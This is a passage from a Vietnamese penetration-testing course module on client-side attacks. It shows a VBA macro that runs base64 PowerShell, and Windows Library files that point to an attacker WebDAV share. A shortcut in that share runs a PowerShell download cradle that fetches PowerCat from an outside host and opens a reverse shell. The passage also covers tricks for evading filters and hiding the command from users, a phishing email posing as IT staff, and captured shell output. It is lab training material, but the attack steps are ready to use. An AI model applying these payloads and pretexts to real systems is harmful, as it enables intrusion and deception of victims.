        Str = Str + "AdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAd"
        Str = Str + "AAuAFcAZQBiAEMAbABpAGUAbgB0ACkALgBEAG8AdwBuAGwAbwB"
    ...
        Str = Str + "QBjACAAMQA5ADIALgAxADYAOAAuADEAMQA4AC4AMgAgAC0AcAA"
        Str = Str + "gADQANAA0ADQAIAAtAGUAIABwAG8AdwBlAHIAcwBoAGUAbABsA"
        Str = Str + "A== "

    CreateObject("Wscript.Shell").Run Str
End Sub
```

***Listing 8 – Macro chạy PowerShell tạo reverse shell***

Lưu macro và đóng tài liệu. Trước khi mở lại, chạy web server Python3 ở thư mục chứa PowerCat và mở listener Netcat trên cổng 4444.

Sau khi mở tài liệu, macro tự động chạy. Lưu ý cảnh báo Enable Content không hiện lại trừ khi đổi tên tài liệu.

Khi macro chạy, ta nhận yêu cầu GET tải PowerCat và một reverse shell đến listener.

```
kali@kali:~$ nc -nvlp 4444
listening on [any] 4444 ...
connect to [192.168.119.2] from (UNKNOWN) [192.168.50.196] 49768
Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.

Install the latest PowerShell for new features and improvements! https://aka.ms/PSWindows

PS C:\Users\offsec\Documents>
```

***Listing 9 – Reverse shell từ Word macro***

Mở tài liệu → macro chạy → reverse shell trả về - hoàn hảo.

Tóm lại: Ta tạo macro VBA chạy một lệnh khi tài liệu mở; sau đó thay lệnh bằng PowerShell base64 để tải PowerCat và tạo reverse shell. Macro độc hại trong Office vẫn là vector tấn công hiệu quả để giành foothold ban đầu. Tuy nhiên, nhận thức người dùng và các công nghệ bảo mật tăng lên khiến việc gửi và thực thi macro ngày càng khó hơn. Do đó, phần tiếp theo sẽ bàn về một kiểu tấn công client-side khác dùng thay thế hoặc làm phương tiện phát tán tài liệu Office độc hại.

---

# 3. Lợi dụng các file thư viện Windows

---

Phần học này bao gồm các mục tiêu học tập sau:

- Chuẩn bị một cuộc tấn công sử dụng các file thư viện Windows
- Tận dụng shortcut Windows để thực thi mã

Nhiều sản phẩm bảo mật quét macro độc hại. Microsoft cũng cung cấp các hướng dẫn và mẫu Group Policy Object (GPO) để giảm thiểu và hạn chế mối đe dọa này. Ngoài ra, hầu hết các chương trình đào tạo nâng cao nhận thức về social engineering đều tập trung ngăn chặn vector tấn công này. Các yếu tố trên khiến vector này khó thực thi thành công.

Trong phần học này, chúng ta sẽ tìm hiểu về các file thư viện Windows, một mối đe dọa ít được biết đến nhưng có hiệu quả tương đương.

---

## 3.1. Thực thi mã thông qua các file thư viện Windows

---

File thư viện Windows là các container ảo cho nội dung người dùng. Chúng kết nối người dùng với dữ liệu lưu trữ ở các vị trí từ xa như dịch vụ web hoặc các chia sẻ mạng. Các file này có phần mở rộng .Library-ms và có thể được thực thi bằng cách nhấp đúp vào chúng trong Windows Explorer.

Trong phần này, chúng ta sẽ lợi dụng một cuộc tấn công client-side hai giai đoạn. Ở giai đoạn đầu, ta dùng file thư viện Windows để chiếm được vị trí trên hệ thống mục tiêu và chuẩn bị giai đoạn hai. Ở giai đoạn hai, ta sẽ dùng vị trí đó để cung cấp một file thực thi, khởi chạy reverse shell khi file được nhấp đúp.

Đầu tiên, ta tạo một file thư viện Windows kết nối tới một chia sẻ WebDAV mà ta sẽ thiết lập. Ở giai đoạn đầu, nạn nhân nhận file .Library-ms, có thể qua email. Khi họ nhấp đúp file này, nó sẽ hiển thị như một thư mục bình thường trong Windows Explorer. Trong thư mục WebDAV, ta sẽ đặt payload dưới dạng file shortcut .lnk cho giai đoạn hai để thực thi reverse shell PowerShell. Ta phải thuyết phục người dùng nhấp đúp vào file .lnk payload để thực thi.

Nhìn sơ, ta có thể nghĩ rằng chỉ cần phục vụ file .lnk cho giai đoạn hai bằng một web server như Apache là đủ. Tuy nhiên, nhược điểm là ta phải gửi link web tới nạn nhân (có thể qua email). Hầu hết các bộ lọc spam và công nghệ bảo mật sẽ phân tích nội dung link để phát hiện nội dung đáng ngờ hoặc các file thực thi sẽ tải xuống. Điều này khiến link của ta có thể bị chặn trước khi đến nạn nhân.

Ngược lại, phần lớn bộ lọc spam và công nghệ bảo mật sẽ cho phép file thư viện Windows được gửi trực tiếp tới người dùng. Khi họ nhấp đúp file, Windows Explorer sẽ hiển thị nội dung của vị trí từ xa như thể đó là thư mục cục bộ. Ở đây, vị trí từ xa là một chia sẻ WebDAV trên máy tấn công. Quá trình này khá đơn giản và khiến người dùng nghĩ họ đang nhấp đúp một file cục bộ.

Để minh họa, ta sẽ thiết lập chia sẻ WebDAV trên hệ thống Kali. Ta dùng WsgiDAV làm server WebDAV để lưu trữ và phục vụ file. Ta có thể cài đặt WsgiDAV bằng pip3.

```
kali@kali:~$ pip3 install wsgidav
Defaulting to user installation because normal site-packages is not writeable
Collecting wsgidav
  Downloading WsgiDAV-4.0.1-py3-none-any.whl (171 kB)
     ━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━ 171.3/171.3 KB 1.6 MB/s eta 0:00:00
...
Successfully installed json5-0.9.6 wsgidav-4.0.1
```

*Danh sách 10 - Cài đặt pip3 và WsgiDAV*

Sau khi cài WsgiDAV, ta tạo thư mục `/home/kali/webdav` làm chia sẻ WebDAV chứa file .lnk. Tạm thời ta đặt một file test.txt trong đó.

Nếu cài WsgiDAV báo lỗi: externally-managed-environment, ta có thể dùng môi trường ảo hoặc cài python3-wsgidav bằng apt. Trong PEP 668 có thay đổi buộc dùng môi trường ảo để tránh hỏng hệ điều hành do cài gói bằng pip.

Tiếp theo, ta chạy WsgiDAV từ `/home/kali/.local/bin`. Nếu cài bằng apt thì đường dẫn khác và dùng lệnh wsgidav để chạy server trong suốt quá trình. Tham số đầu tiên là `--host` chỉ định địa chỉ host phục vụ, ta dùng `0.0.0.0` để lắng nghe tất cả interface. Tham số kế là `--port=80` để chọn port nghe, `--auth=anonymous` để tắt xác thực, cuối cùng là `--root /home/kali/webdav/` chỉ định thư mục gốc cho chia sẻ WebDAV.

```
kali@kali:~$ mkdir /home/kali/webdav

kali@kali:~$ touch /home/kali/webdav/test.txt

kali@kali:~$ /home/kali/.local/bin/wsgidav --host=0.0.0.0 --port=80 --auth=anonymous --root /home/kali/webdav/
Running without configuration file.
17:41:53.917 - WARNING : App wsgidav.mw.cors.Cors(None).is_disabled() returned True: skipping.
17:41:53.919 - INFO    : WsgiDAV/4.0.1 Python/3.9.10 Linux-5.15.0-kali3-amd64-x86_64-with-glibc2.33
17:41:53.919 - INFO    : Lock manager:      LockManager(LockStorageDict)
17:41:53.919 - INFO    : Property manager:  None
17:41:53.919 - INFO    : Domain controller: SimpleDomainController()
17:41:53.919 - INFO    : Registered DAV providers by route:
17:41:53.919 - INFO    :   - '/:dir_browser': FilesystemProvider for path '/home/kali/.local/lib/python3.9/site-packages/wsgidav/dir_browser/htdocs' (Read-Only) (anonymous)
17:41:53.919 - INFO    :   - '/': FilesystemProvider for path '/home/kali/webdav' (Read-Write) (anonymous)
17:41:53.920 - WARNING : Basic authentication is enabled: It is highly recommended to enable SSL.
17:41:53.920 - WARNING : Share '/' will allow anonymous write access.
17:41:53.920 - WARNING : Share '/:dir_browser' will allow anonymous read access.
17:41:54.348 - INFO    : Running WsgiDAV/4.0.1 Cheroot/8.5.2+ds1 Python 3.9.10
17:41:54.348 - INFO    : Serving on http://0.0.0.0:80 ..
```

*Danh sách 11 - Khởi động WsgiDAV trên cổng 80*

Kết quả cho thấy server WebDAV đã chạy trên port 80. Ta xác nhận bằng cách mở [http://127.0.0.1](http://127.0.0.1/) trên trình duyệt.


***Hình 25: Nội dung chia sẻ WebDAV***

Hình 25 cho thấy ta đã truy cập thành công vào chia sẻ WebDAV và xem được file test.txt.

Tiếp theo, ta tạo file thư viện Windows. Dùng xfreerdp kết nối tới máy CLIENT137 (192.168.50.194) qua RDP để chuẩn bị tấn công. Ta đăng nhập bằng user offsec, pass lab. Việc này giúp ta dễ dàng tạo và kiểm tra file thư viện, sau đó là file shortcut.

Sau khi kết nối, tìm ứng dụng Visual Studio Code (VSC) trên desktop để tạo file thư viện. Cũng có thể dùng Notepad. Mở VSC bằng cách nhấp đúp icon.


***Hình 26: Desktop Windows 11***

Trên thanh menu, chọn File > New Text File. Lưu file trống dưới tên `config.Library-ms` trên desktop user offsec. Ngay khi lưu với phần mở rộng này, file sẽ có icon riêng. Icon không nguy hiểm nhưng cũng không phổ biến trên Windows nên có thể gây nghi ngờ. Để tăng khả năng nạn nhân mở file, ta thay đổi hình thức hiển thị.


***Hình 27: File thư viện Windows trống***

File thư viện gồm 3 phần chính, viết bằng XML để định nghĩa các tham số truy cập vị trí từ xa: Thông tin chung về thư viện, thuộc tính thư viện, và vị trí thư viện. Ta xây dựng code XML và giải thích từng thẻ. Tham khảo [Library Description Schema] để biết thêm chi tiết. Bắt đầu với khai báo XML và phiên bản định dạng file thư viện.

Đoạn code dưới đây khai báo namespace⁷ cho file thư viện, dùng cho định dạng từ Windows 7 trở đi. Cũng có thẻ đóng mô tả thư viện. Các thẻ sau sẽ nằm bên trong `<libraryDescription>`.

```xml
<?xml version="1.0" encoding="UTF-8"?>
<libraryDescription xmlns="http://schemas.microsoft.com/windows/2009/library">

</libraryDescription>
```

*Danh sách 12 - Khai báo XML và phiên bản mô tả thư viện*

Tiếp theo, thêm 2 thẻ cung cấp thông tin thư viện. Thẻ `<name>` chỉ tên thư viện. Không phải tên tùy ý mà phải theo định dạng tên DLL và chỉ mục. Có thể dùng `@shell32.dll,-34575` hoặc `@windows.storage.dll,-34582` theo Microsoft. Ta chọn cái sau để tránh bộ lọc dựa trên chữ "shell32". Thẻ `<version>` đặt giá trị số, ví dụ 6.

```xml
<name>@windows.storage.dll,-34582</name>
<version>6</version>
```

*Danh sách 13 - Thẻ tên và phiên bản của thư viện*

Tiếp đến là thẻ `<isLibraryPinned>` xác định thư viện có được ghim vào thanh điều hướng Windows Explorer không. Để tăng tính thực tế, ta đặt `true`. Thẻ `<iconReference>` xác định icon hiển thị file thư viện, giá trị định dạng giống thẻ name. Có thể dùng `imageres.dll` với chỉ mục `-1002` (icon thư mục Documents) hoặc `-1003` (icon thư mục Pictures). Ta chọn `-1003` để trông vô hại hơn.

```xml
<isLibraryPinned>true</isLibraryPinned>
<iconReference>imageres.dll,-1003</iconReference>
```

*Danh sách 14 - Cấu hình ghim thanh điều hướng và icon*

Bây giờ thêm thẻ `<templateInfo>` chứa `<folderType>`, xác định các cột và chi tiết hiển thị mặc định trong Windows Explorer khi mở thư viện. Cần cung cấp GUID tìm được trên trang tài liệu Microsoft. Ví dụ ta dùng GUID thư mục Documents để làm cho nạn nhân tin hơn.

```xml
<templateInfo>
<folderType>{7d49d726-3c21-4f05-99aa-fdc2c9474656}</folderType>
</templateInfo>
```

*Danh sách 15 - Thẻ templateInfo và folderType*

Thẻ tiếp theo bắt đầu phần vị trí thư viện. Trong phần này, ta định nghĩa nơi lưu trữ mà file thư viện trỏ tới. Tạo thẻ `<searchConnectorDescriptionList>` chứa danh sách các kết nối tìm kiếm được định nghĩa bằng `<searchConnectorDescription>`. Các kết nối này cho phép file thư viện định cấu hình kết nối tới vị trí từ xa. Ta có thể định nghĩa nhiều thẻ `<searchConnectorDescription>` bên trong `<searchConnectorDescriptionList>`. Ở ví dụ này, ta chỉ tạo một.

Trong phần mô tả kết nối, ta cung cấp các tham số cho chia sẻ WebDAV. Thẻ đầu tiên là `<isDefaultSaveLocation>` với giá trị `true` xác định hành vi khi người dùng chọn lưu mục. Ta giữ mặc định. Thẻ `<isSupported>` đặt `false` để tương thích dù không được tài liệu Microsoft ghi rõ.

Thẻ quan trọng nhất là `<url>`, trỏ tới chia sẻ WebDAV qua HTTP. Nằm trong thẻ `<simpleLocation>`, giúp chỉ vị trí từ xa dễ hiểu hơn so với thẻ `<locationProvider>` thông thường.

```xml
<searchConnectorDescriptionList>
<searchConnectorDescription>
<isDefaultSaveLocation>true</isDefaultSaveLocation>
<isSupported>false</isSupported>
<simpleLocation>
<url>http://192.168.119.2</url>
</simpleLocation>
</searchConnectorDescription>
</searchConnectorDescriptionList>
```

*Danh sách 16 - Thẻ templateInfo và folderType*

Dán đoạn code này vào Visual Studio Code.

Chúng ta vừa xem qua toàn bộ code XML của file thư viện. Giờ đã hiểu cách hoạt động bên trong và có thể chỉnh sửa theo ý muốn. Dưới đây là toàn bộ nội dung XML:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<libraryDescription xmlns="http://schemas.microsoft.com/windows/2009/library">
<name>@windows.storage.dll,-34582</name>
<version>6</version>
<isLibraryPinned>true</isLibraryPinned>
<iconReference>imageres.dll,-1003</iconReference>
<templateInfo>
<folderType>{7d49d726-3c21-4f05-99aa-fdc2c9474656}</folderType>
</templateInfo>
<searchConnectorDescriptionList>
<searchConnectorDescription>
<isDefaultSaveLocation>true</isDefaultSaveLocation>
<isSupported>false</isSupported>
<simpleLocation>
<url>http://192.168.119.2</url>
</simpleLocation>
</searchConnectorDescription>
</searchConnectorDescriptionList>
</libraryDescription>
```

*Danh sách 17 - Mã Windows Library kết nối đến chia sẻ WebDAV*

Lưu và đóng file trong Visual Studio Code. Sau đó nhấp đúp vào `config.Library-ms` trên Desktop.


***Hình 28: Nhấp đúp file thư viện Windows***

Khi mở thư mục trong Explorer, ta thấy file test.txt đã tạo trong chia sẻ WebDAV. Điều này chứng tỏ file thư viện hoạt động, nhúng kết nối tới chia sẻ WebDAV.

Rất tốt!

Điểm cộng thêm là thanh điều hướng chỉ hiện `config` mà không báo đây là vị trí từ xa, làm cho giai đoạn đầu tấn công client-side thêm thuyết phục.

Khi mở lại file trong Visual Studio Code, ta thấy một thẻ mới tên `serialized` xuất hiện, chứa thông tin mã hóa base64 về vị trí thẻ url. Nội dung trong thẻ url cũng thay đổi từ `http://192.168.119.2` thành `\\192.168.119.2\DavWWWRoot`. Windows cố gắng tối ưu thông tin kết nối WebDAV cho client WebDAV của Windows nên chỉnh sửa như vậy.


***Hình 29: Mã XML đã chỉnh sửa của config.Library-ms***

File thư viện vẫn hoạt động khi nhấp đúp, nhưng do có thẻ serialized mã hóa, file có thể không chạy đúng trên máy khác hoặc sau khi khởi động lại, dẫn đến hiện tượng Windows Explorer hiện chia sẻ WebDAV trống.

Để tránh lỗi khi tấn công, ta có thể reset file về trạng thái ban đầu bằng cách dán lại nội dung danh sách 17 vào Visual Studio Code. Tuy nhiên, phải làm việc này mỗi lần chạy file thư viện. Điều này không vấn đề vì trong hầu hết đánh giá, ta chỉ cần nạn nhân nhấp đúp một lần. Khi file trở lại trạng thái ban đầu, ta sẵn sàng gửi file cho nạn nhân.

Giờ ta đã có file thư viện Windows hoạt động, ta cần tạo file shortcut. Mục đích là khởi động reverse shell bằng cách đặt file shortcut .lnk trong chia sẻ WebDAV để nạn nhân thực thi.

Tạo shortcut trên desktop user offsec bằng cách nhấp chuột phải desktop, chọn New > Shortcut. Trong cửa sổ Create Shortcut, nhập đường dẫn tới chương trình và các tham số sẽ được shortcut trỏ tới. Ta trỏ shortcut tới PowerShell, dùng download cradle để tải PowerCat từ máy Kali và khởi chạy reverse shell.

Dùng lại câu lệnh đã dùng trước đây:

```powershell
powershell.exe -c "IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.119.3:8000/powercat.ps1');
powercat -c 192.168.119.3 -p 4444 -e powershell"
```

*Danh sách 18 - Download cradle PowerShell và thực thi reverse shell PowerCat*

Nhập lệnh này vào ô input và nhấn Next.


***Hình 28: Tạo shortcut trên CLIENT137***

Nếu nghi ngờ nạn nhân có thể kiểm tra shortcut, ta có thể dùng mẹo đặt dấu phân cách và lệnh vô hại phía sau để đẩy lệnh độc hại ra khỏi vùng hiển thị trong thuộc tính file. Người dùng chỉ thấy lệnh vô hại.

Trong cửa sổ tiếp theo, đặt tên shortcut là `automatic_configuration` rồi nhấn Finish.

Trên máy Kali, chạy Python3 web server port 8000 nơi lưu `powercat.ps1`, và Netcat listener port 4444.

Thay vì dùng Python3 web server phục vụ PowerCat, có thể host trên chia sẻ WebDAV. Nhưng do chia sẻ WebDAV có thể ghi, AV hoặc giải pháp bảo mật khác có thể xóa hoặc cách ly payload. Nếu để chia sẻ WebDAV chỉ đọc, ta mất phương pháp chuyển file từ máy mục tiêu. Trong suốt khóa học này, ta dùng Python3 web server để phục vụ payload cho tấn công Windows Library files.

Để kiểm tra download cradle và reverse shell PowerCat hoạt động, nhấp đúp shortcut trên desktop. Xác nhận chạy ứng dụng trong cửa sổ hiện lên, Netcat listener nhận reverse shell.

```bash
kali@kali:~$ nc -nvlp 4444
listening on [any] 4444 ...
connect to [192.168.119.2] from (UNKNOWN) [192.168.50.194] 49768
Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.

Install the latest PowerShell for new features and improvements! https://aka.ms/PSWindows

PS C:\Windows\System32\WindowsPowerShell\v1.0>
```

*Danh sách 19 - Kết nối reverse shell thành công qua file Shortcut*

Kết thúc phần này, chúng ta sẽ thu được một reverse shell từ máy HR137 tại địa chỉ 192.168.50.195. Ví dụ này sẽ sử dụng file thư viện Windows mà chúng ta đã tạo và gửi cho nạn nhân giả lập với một lý do hợp lý. Mục tiêu là thuyết phục nạn nhân nhấp đúp vào shortcut sau khi đã nhúng share WebDAV qua file thư viện Windows đã chuẩn bị.

Lý do hợp lý rất quan trọng trong cuộc tấn công phía client này. Ở đây, ta có thể nói với mục tiêu rằng ta là thành viên mới trong nhóm IT và cần cấu hình tất cả hệ thống client cho nền tảng quản lý mới. Ta cũng nói thêm rằng đã đính kèm một chương trình cấu hình thân thiện với người dùng. Dưới đây là mẫu email dùng trong một bài kiểm tra thực tế.

```
Xin chào! Tôi tên là Dwight, thành viên mới trong nhóm IT.

Tuần này tôi đang hoàn thành một số cấu hình mà chúng tôi đã triển khai tuần trước.
Để thuận tiện hơn, tôi đã đính kèm một file tự động thực hiện từng bước. Bạn vui lòng tải file đính kèm, mở thư mục và nhấp đúp vào “automatic_configuration”? Khi bạn xác nhận cấu hình trong cửa sổ hiện ra, mọi việc sẽ hoàn tất!

Nếu bạn có câu hỏi hoặc gặp vấn đề, hãy cho tôi biết!
```

Bây giờ, ta sẽ copy file `automatic_configuration.lnk` và `config.Library-ms` vào thư mục WebDAV trên máy Kali. Để tiện lợi, ta dùng file thư viện config để copy các file vào thư mục. Trong một bài kiểm tra bình thường, ta sẽ gửi file thư viện qua email nhưng ở ví dụ này ta sẽ dùng SMB share \192.168.50.195\share để giả lập bước gửi file.

Tiếp theo, ta khởi động Python3 web server ở cổng 8000 để phục vụ powercat.ps1, WsgiDAV cho WebDAV share /home/kali/webdav, và Netcat lắng nghe ở cổng 4444.

Để upload file thư viện lên SMB share, ta dùng smbclient với tham số -c chỉ định lệnh put `config.Library-ms`. Trước khi chạy smbclient, ta chuyển thư mục hiện tại tới thư mục chứa file thư viện. Đồng thời ta xóa file test.txt đã tạo trước đó trên WebDAV share.

```
kali@kali:~$ cd webdav

kali@kali:~/webdav$ cd webdav

kali@kali:~/webdav$ rm test.txt

kali@kali:~/webdav$ smbclient //192.168.50.195/share -c 'put config.Library-ms'
Enter WORKGROUP\kali's password:
putting file config.Library-ms as \config.Library-ms (1.8 kb/s) (average 1.8 kb/s)
```

Sau khi đưa file thư viện vào máy mục tiêu qua smbclient, một người dùng giả lập trên hệ thống mở file đó và khởi chạy reverse shell bằng cách chạy shortcut.

```
kali@kali:~$ nc -nvlp 4444
listening on [any] 4444 ...
connect to [192.168.119.2] from (UNKNOWN) [192.168.50.195] 56839
Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.

Install the latest PowerShell for new features and improvements! https://aka.ms/PSWindows

PS C:\Windows\System32\WindowsPowerShell\v1.0> whoami
whoami
hr137\hsmith
```

Kết quả trên cho thấy ta đã nhận được reverse shell thành công qua file thư viện và shortcut.

Tuyệt vời.

Chúng ta cũng có thể kết hợp kỹ thuật này với các tấn công client-side khác, ví dụ macro Office trước đó.

Phần này giúp ta hiểu về Windows Library files và cách khai thác chúng như một bước đầu hiệu quả để chuyển tải file thực thi trong tấn công client-side. Ở bước thứ hai, ta dùng shortcut để tải PowerCat và khởi tạo reverse shell. Windows Library files là cách rất tốt để chuyển payload mà không bị các công nghệ bảo mật như bộ lọc spam phát hiện.

---

# 4. Tổng kết

---

Các vector tấn công phía client thường là cách hiệu quả để chiếm được chỗ đứng ban đầu trong một mạng nội bộ không có truy cập trực tiếp từ bên ngoài. Những phương pháp này đặc biệt nguy hiểm vì chúng khai thác các điểm yếu hoặc tận dụng chức năng sẵn có của phần mềm client đang được sử dụng.

Trong Module này, chúng ta đã học cách thu thập thông tin về mục tiêu để chuẩn bị cho các cuộc tấn công phía client. Sau đó, chúng ta đã tận dụng macro Microsoft Office, file thư viện Windows, và file shortcut để thực thi mã độc và nhận được reverse shell.